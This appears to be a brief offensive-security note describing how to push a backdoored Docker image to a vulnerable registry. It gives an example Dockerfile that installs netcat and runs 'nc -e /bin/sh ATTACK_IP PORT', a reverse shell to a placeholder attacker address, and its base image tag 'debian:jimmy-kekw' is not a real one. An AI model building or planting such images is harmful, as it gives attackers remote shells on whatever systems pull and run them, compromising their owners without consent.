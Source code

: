 ### Essentially, we can upload/publish/push docker images with malicious code (reverse shell) to a vulnerable docker registry

### Example:

#### FROM debian:jimmy-kekw

#### RUN apt-get update -y

#### RUN apt-get install netcat -y

#### RUN nc -e /bin/sh ATTACK_IP PORT
